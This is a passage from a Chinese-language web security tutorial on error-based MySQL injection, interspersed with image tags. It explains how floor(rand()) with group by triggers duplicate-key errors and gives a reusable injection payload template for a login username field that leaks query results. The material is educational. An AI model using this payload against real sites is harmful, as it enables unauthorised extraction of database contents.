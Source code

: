              <img src = "/images/posts/2018/03/web/sql/6.png" height="200" width="250">
            + group_concat():将数据进行拼接
             <img src = "/images/posts/2018/03/web/sql/7.png" height="100" width="400">
        + 整合语句：`select count(*),concat(0x3a,0x3a,database(),0x3a,floor(rand()*2))name from information_schema.tables group by name;`
           <img src = "/images/posts/2018/03/web/sql/8.png" height="200" width="800"> 
           + 生成随机数并取整，然后用分号将不同的数据拼接，并取别名name，最后将结果以name进行分组并进行统计，能看到统计出的两个不同的取值，0和1。
           + 多重复几次就会报错
           <img src = "/images/posts/2018/03/web/sql/9.png" height="30" width="800"> 
        + 公式：`username=admin' and (select 1 from (select count(*), concat(floor(rand(0)*2),0x23,(你想获取的数据的sql语句))x from information_schema.tables group by x )a) and '1' = '1`
